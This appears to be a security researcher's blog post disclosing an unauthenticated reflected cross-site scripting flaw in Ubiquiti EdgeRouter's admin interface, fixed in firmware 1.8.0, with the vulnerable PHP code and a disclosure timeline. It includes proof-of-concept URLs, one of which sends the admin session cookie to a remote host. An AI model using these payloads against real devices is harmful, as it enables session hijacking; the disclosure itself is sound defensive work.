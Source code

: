 ```yaml
---
author: mpf
date: 2016-04-06T13:15:55+01:00
keywords:
- security
- xss
- ubnt
- edgerouter
title: Unauthenticated XSS in EdgeRouter admin interface
topics:
- security
type: post
---
```


In February 2015 I discovered a cross-site scripting vulnerability in
Ubiquiti's EdgeRouter Administrative interface. These are powerful and cheap
devices which are also pretty fun to use and configure, so I'd definitely
recommend them even though I found this issue.

After a couple of false-starts and emails getting lost I was invited to submit
details of the vulnerability via [HackerOne](https://hackerone.com), and they
fairly quickly decided to pay me a $500 US bounty.

So, if you have an EdgeMAX device you should head to the download page on
[ubnt.com](https://www.ubnt.com/download/edgemax/) and grab at least version
1.8.0, which fixes this issue, as well as lots of others, and adds some cool
new features. For full details see the [release notes](http://community.ubnt.com/t5/EdgeMAX-Updates-Blog/EdgeMAX-EdgeRouter-software-release-v1-8-0/ba-p/1490756).

If you're interested in more detais, read on!

## Overview

Prior to version 1.8.0 the catchall PHP error page on EdgeRouter devices
doesn't correctly encode the contents of several URL parameters, and is
vulnerable to unauthenticated reflected cross-site scripting.

This, coupled with the fact the `PHPSESSIONID` cookie is not marked as HttpOnly
mean that remote attackers can steal session cookies, and potentially hijack
active administrative sessions.

## Details

A simple proof of concept, which displays the session cookie in a popup is:

        https://router_ip:8088/anynonexistantpath?url=%27%22%3E%3CSCRIPT%3Ealert%28document.cookie%29%3C/SCRIPT%3E

or to send the cookie's value to a remote server, using a trick such as this:

        https://router_ip:8088/anynonexistantpath?url=%3Cscript%3Edocument.write%28%27%3Cimg%20src=%22//hackerific.net/cookie_%27%2bdocument.cookie%2b%27%22%3E%27%29%3C/script%3E

**Warning**: This URL will make a request for a non-existent page on audited.netcraft.com)

This could also be used to trick a logged in administrator into perform
arbitrary actions using the web interface, or perform attacks using a framework
such as BeEF: http://beefproject.com/.

In all cases, the vulnerable code is in `/var/www/php/app/views/errors/catchall.php`:

First, the vulnerable parameters are defined:

        <?php
                //define the details that are available to display in the order to display them
                $availableDetails = array(
                        'clientaddr' => 'Client address',
                        'clientname' => 'Client name',
                        'clientident' => 'Client ident',
                        'srcclass' => 'Client group',
                        'targetclass' => 'Target class',
                        'url' => 'URL'
                );

                //determine which details were passed in the query string
                $details = array_intersect(array_keys($_GET), array_keys($availableDetails));
        ?>

And then, a little later on, they're echoed to the page:

        <?php foreach ($availableDetails as $key=>$detail): ?>
                <?php if (in_array($key, $details)): ?>
                <dl class="detail">
                        <dt><?php echo($detail); ?></dt>
                        <dd><?php echo($_GET[$key]); ?></dd>
                </dl>
                <?php endif; ?>
        <?php endforeach; ?>

This code echoes the parameter to the page without adequate encoding, causing this issue.

## Vulnerability

While investigating this issue, I downloaded and extracted several firmware
images for EdgeRouter products, and this affects versions back to 1.4,
and up to the current version at the time of testing, which was 1.7.

## Timeline

* **Originally discovered**: Feb 2015.  Attempted contact via email but didn't get anywhere for several months. Eventually, I was invited to join HackerOne and post there.
* **Submitted to HackerOne**: 31st August 2015. From this point Ubiquiti's communications were excellent. 
* **Fix released**: 26th February 2016: Ubiquiti released firmware version 1.8.0, which resolved the issue.

